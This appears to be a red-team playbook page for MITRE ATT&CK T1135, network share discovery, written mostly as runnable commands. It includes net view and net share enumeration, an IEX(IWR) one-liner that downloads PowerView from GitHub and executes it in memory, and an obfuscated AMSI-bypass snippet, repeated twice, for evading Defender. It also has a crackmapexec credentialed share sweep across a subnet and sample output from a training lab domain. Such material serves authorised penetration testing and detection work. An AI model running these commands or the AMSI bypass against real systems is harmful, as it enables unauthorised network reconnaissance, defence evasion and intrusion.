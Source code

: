 <!---------------------------------------------------------------------------------
Copyright: (c) BLS OPS LLC.
This program is free software: you can redistribute it and/or modify
it under the terms of the GNU General Public License as published by
the Free Software Foundation, version 3.
This program is distributed in the hope that it will be useful,
but WITHOUT ANY WARRANTY; without even the implied warranty of
MERCHANTABILITY or FITNESS FOR A PARTICULAR PURPOSE. See the
GNU General Public License for more details.
You should have received a copy of the GNU General Public License
along with this program. If not, see <https://www.gnu.org/licenses/>.
--------------------------------------------------------------------------------->
# T1135 - Network Share Discovery
### Attacks
* Network Share Discovery command prompt
	* Overview
		* Network Share Discovery utilizing the command prompt. The computer name variable may need to be modified to point to a different host
		* Upon execution avalaible network shares will be displayed in the powershell session
	* Command

		```cmd
		net view \\#{computer_name}
		```
* Network Share Discovery PowerShell
	* Overview
		* Network Share Discovery utilizing PowerShell. The computer name variable may need to be modified to point to a different host
		* Upon execution, avalaible network shares will be displayed in the powershell session
	* Command

		```powershell
		net view \\<computer_name>
		get-smbshare -Name <computer_name>
		```
* View available share drives
	* Overview
		* View information about all of the resources that are shared on the local computer Upon execution, avalaible share drives will be displayed in the powershell session
	* Command

		```cmd
		net share
		```

* Share Discovery with PowerView
	* Overview
		* Enumerate Domain Shares the current user has access. Upon execution, progress info about each share being scanned will be displayed.
	* Command

		```powershell
		IEX (IWR 'https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/f94a5d298a1b4c5dfb1f30a246d9c73d13b22888/Recon/PowerView.ps1'); Find-DomainShare -CheckShareAccess -Verbose
		```

* Invoke-ShareFinder (PowerView)
	* Overview
		* PowerView
		  * https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1
		  * Load up PowerView.ps1
		  * If Defender is not disabled, AMSI will step in and likely detect
		  * You will need to use a bypass to load it correctly
	* Commands

		```pwsh
		sET-ItEM ( 'V'+'aR' +  'IA' + 'blE:1q2'  + 'uZx'  ) ( [TYpE](  "{1}{0}"-F'F','rE'  ) )  ;   (   GeT-VariaBle  ( "1Q2U" +"zx"  )  -VaL  )."A`ss`Embly"."GET`TY`Pe"((  "{6}{3}{1}{4}{2}{0}{5}" -f'Util','A','Amsi','.Management.','utomation.','s','System'  ) )."g`etf`iElD"(  ( "{0}{2}{1}" -f'amsi','d','InitFaile'  ),(  "{2}{4}{0}{1}{3}" -f 'Stat','i','NonPubli','c','c,'  ))."sE`T`VaLUE"(  ${n`ULl},${t`RuE} )```
		cd C:\AD\Tools\
		. .\PowerView.ps1
		```

	* Notes
		* This will make some noise
		* It is attempting to view shares on every system individually
	* `Invoke-ShareFinder -Verbose`
		* Find shares on hosts in current domain
	* `Invoke-ShareFinder -Verbose -ExcludeStandard -ExcludePrint -ExcludeIPC`
		* Filters out the $IPC, Print and standard shares
		* Examples

			```
			PS C:\AD\Tools> Invoke-ShareFinder -ExcludeStandard -ExcludePrint -ExcludeIPC
			\\dcorp-stdadm.dollarcorp.moneycorp.local\shared		-
			\\dcorp-std507.dollarcorp.moneycorp.local\shared		-
			\\dcorp-std501.dollarcorp.moneycorp.local\shared		-
			\\dcorp-std509.dollarcorp.moneycorp.local\shared		-
			\\dcorp-std510.dollarcorp.moneycorp.local\shared		-
			\\dcorp-dc.dollarcorp.moneycorp.local\NETLOGON  - Logon server share
			\\dcorp-dc.dollarcorp.moneycorp.local\SYSVOL	- Logon server share
			\\dcorp-std511.dollarcorp.moneycorp.local\shared		-
			\\dcorp-std506.dollarcorp.moneycorp.local\shared		-
			\\dcorp-std503.dollarcorp.moneycorp.local\shared		-
			\\dcorp-std502.dollarcorp.moneycorp.local\shared		-
			\\dcorp-std508.dollarcorp.moneycorp.local\shared		-
			\\dcorp-std504.dollarcorp.moneycorp.local\shared		-
			\\dcorp-std512.dollarcorp.moneycorp.local\shared		-
			```

* Get-NetFileServer (PowerView)
	* Overview
		* PowerView
			* https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1
			* Load up PowerView.ps1
			* If Defender is not disabled, AMSI will step in and likely detect
			* You will need to use a bypass to load it correctly
	* Commands

		```
		sET-ItEM ( 'V'+'aR' +  'IA' + 'blE:1q2'  + 'uZx'  ) ( [TYpE](  "{1}{0}"-F'F','rE'  ) )  ;   (   GeT-VariaBle  ( "1Q2U" +"zx"  )  -VaL  )."A`ss`Embly"."GET`TY`Pe"((  "{6}{3}{1}{4}{2}{0}{5}" -f'Util','A','Amsi','.Management.','utomation.','s','System'  ) )."g`etf`iElD"(  ( "{0}{2}{1}" -f'amsi','d','InitFaile'  ),(  "{2}{4}{0}{1}{3}" -f 'Stat','i','NonPubli','c','c,'  ))."sE`T`VaLUE"(  ${n`ULl},${t`RuE} )
		cd C:\AD\Tools\
		. .\PowerView.ps1
		```

	* `Get-NetFileServer`
		* High probability that many users authenticate to a system designated as a file server or exchange server

### Local - Windows

1. Enumerate mapped drives

	```cmd
	net use
	```
1. Enumerate local drives

	```cmd
	fsutil fsinfo drives
	```

1. Query shared drives on the local system

	```cmd
	net share
	```

### From a Linux Machine
* Crackmapexec

	```bash
	crackmapexec <ip_address>/24 -u <username> -p '<password>‘ -t 500 --shares
	```
